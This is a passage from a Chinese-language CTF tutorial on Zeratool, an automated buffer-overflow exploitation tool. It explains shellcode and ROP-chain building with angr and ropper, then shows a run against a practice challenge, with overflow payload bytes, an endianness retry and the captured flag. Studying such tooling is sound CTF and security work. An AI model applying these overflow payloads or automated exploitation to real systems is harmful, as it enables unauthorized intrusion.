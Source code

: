 代码中还考虑了大端序和小端序的问题，这里就略去了。

最后通过 `repr(str(state.posix.dumps(0)))` 对输入字符串进行约束求解。



 `point_to_ropchain_filter` 函数与 `point_to_shellcode_filter`十分相似，只是 shellcode 改为 ropchain 

`getRopchain` 函数实现了构造 `ropchain`，该函数利用了 `ropper` 的 `RopperService` 来构造 rop 链。

以上就是缓冲区溢出漏洞利用的主要内容。



## 运行结果

以下 `zeratool` 运行示例效果，感兴趣的可以使用其他程序试试，查看效果。

```python
root@3566e45f97d4:/ctf/Zeratool# python zeratool.py challenges/ret -u ctf.hackucf.org -p 9003
[+] Checking pwn type...
[+] Checking for overflow pwn type...
[+] Vulnerable path found '0000000000000000000000000000000000000000000000000000000000000000\xef\xbe\xad\xde000...'
[+] Triggerable with STDIN : '0000000000000000000000000000000000000000000000000000000000000000\xef\xbe\xad\xde00...'
[+] Getting binary protections
[+] Found win function sym.win
[+] Exploiting overflow
Process with PID 825 started...
File dbg:///ctf/Zeratool/challenges/ret  reopened in read-write mode
= attach 825 825
Continue until 0x0804868b using 1 bpsize
hit breakpoint at: 804868b
[+] Using point to win function technique
[+] Vulnerable path found '0000000000000000000000000000000000000000000000000000000000000000\xef\xbe\xad\xde000000000000\x08\x04\x86\x1b0000000000000000'
[+] Triggerable with STDIN : '0000000000000000000000000000000000000000000000000000000000000000\xef\xbe\xad\xde000000000000\x08\x04\x86\x1b0000000000000000\x00\x00\x00...'
'0000000000000000000000000000000000000000000000000000000000000000\xef\xbe\xad\xde000000000000\x08\x04\x86\x1b0000000000000000\x00\x00\x00\x00....'

[~] Failed exploit launch. Switching Endianess
'0000000000000000000000000000000000000000000000000000000000000000\xef\xbe\xad\xde000000000000\x1b\x86\x04\x080000000000000000\x0.....'
you Win!

challenges  flag.txt	lib	 radare2    samples.sh
core	    install.sh	LICENSE  README.md  zeratool.py
flag{y0u_g0t_1t}
```



## 总结
